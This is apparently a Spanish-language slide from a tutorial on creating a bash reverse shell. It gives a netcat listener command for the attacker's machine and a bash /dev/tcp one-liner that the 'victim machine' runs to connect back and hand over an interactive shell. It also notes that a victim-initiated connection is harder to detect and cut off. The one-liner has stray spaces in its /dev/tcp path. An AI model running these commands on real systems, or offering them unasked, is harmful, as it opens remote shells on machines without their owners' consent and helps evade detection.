

# Crear una reverse Shell con bash
Si queremos conectarnos a una máquina víctima, pero de forma que sea la máquina víctima la que establezca la conexión ( Esto es mas difícil de detectar y de cortar la conexión), podemos crear una reverse Shell, creando un servidor con netcat en nuestro equipo.

Primero creamos el servidor en nuestro equipo ej: ( ip : 192.168.1.50 )
		 nc  -nlvp 80
Luego la máquina víctima deberá ejecutar :

	  /bin/bash -c 'exec bash -i &> /dev/tcp/ 192.168.1.50 /80 <&1'